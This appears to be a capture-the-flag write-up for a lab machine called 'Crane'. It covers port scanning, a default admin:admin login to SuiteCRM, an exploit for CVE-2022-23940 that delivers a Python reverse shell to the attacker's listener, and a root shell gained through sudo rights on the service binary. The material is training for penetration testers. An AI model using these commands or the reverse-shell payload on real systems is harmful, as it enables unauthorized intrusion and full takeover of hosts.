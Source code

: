 # Crane

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -Pn -p- -T4 crane
...

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
33060/tcp open  mysqlx
```

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -Pn -p 22,80,3306,33060 -T4 -A crane
...

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)
|_  256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: SuiteCRM
|_Requested resource was index.php?action=Login&module=Users
|_http-favicon: Unknown favicon MD5: ED9A8C7810E8C9FB7035B6C3147C9A3A
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.38 (Debian)
3306/tcp  open  mysql   MySQL (unauthorized)
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000

         (... omitted irrelevant info ...)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Notes:

- SuiteCRM on port 80
- Mysql servers on 3306 and 33060

We check out this Suite CRM in firefox, and the root path redirects us to some login screen:

![](./assets/suite-crm-login.png)

We log in with `admin:admin`... lol

We fumble around the page and eventually get to an "about" page

![](./assets/suite-crm-about.png)

This takes us somewhere where we can see the version running

![](./assets/suite-crm-version.png)

```
┌──(kali㉿kali)-[~]
└─$ searchsploit suitecrm
------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                |  Path
------------------------------------------------------------------------------ ---------------------------------
SuiteCRM 7.10.7 - 'parentTab' SQL Injection                                   | php/webapps/46310.txt
SuiteCRM 7.10.7 - 'record' SQL Injection                                      | php/webapps/46311.txt
SuiteCRM 7.11.15 - 'last_name' Remote Code Execution (Authenticated)          | php/webapps/49001.py
SuiteCRM 7.11.18 - Remote Code Execution (RCE) (Authenticated) (Metasploit)   | php/webapps/50531.rb
------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

No available exploits in exploit-db.

Found https://github.com/manuelz120/CVE-2022-23940 for the Suite CRM CVE-2022-23940

Let's try that repo...

Will try to send a python reverse shell:

```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.180\",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"
```

I set up a local listener:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
```

And run the exploit:

```                                                                                                                                                                                               
┌──(cve)─(kali㉿kali)-[~/CVE-2022-23940]
└─$ python exploit.py --payload 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.180\",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"' --host 'http://crane' --username admin --password 'admin'
INFO:CVE-2022-23940:Login did work - Trying to create scheduled report
```

And we got a shell!

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [192.168.45.180] from (UNKNOWN) [192.168.163.146] 44082
www-data@crane:/var/www/html$ whoami
whoami
www-data
```

We find our first flag in `/var/www`:

```
# cd /var/www
cd /var/www
# ls
ls
html  local.txt
# cat local.txt
cat local.txt
4f7e6a14b84fc45521ea334e111104f5
```

I find out I can run `/usr/sbin/service` as root without a password:

```
www-data@crane:/home$ sudo -l
sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/service
```

I check out GTFOBins on how to abuse this service binary (see https://gtfobins.github.io/gtfobins/service/)

```
www-data@crane:/var/www/html$ sudo service ../../bin/sh
sudo service ../../bin/sh
# whoami
whoami
root
```

```
# ls -la /root | grep proof
ls -la /root | grep proof
-rw-r--r--  1 root root   33 Mar  5 19:34 proof.txt
# cat /root/proof.txt
cat /root/proof.txt
7e2ffc0de4352b123fa9450c5c33c212
```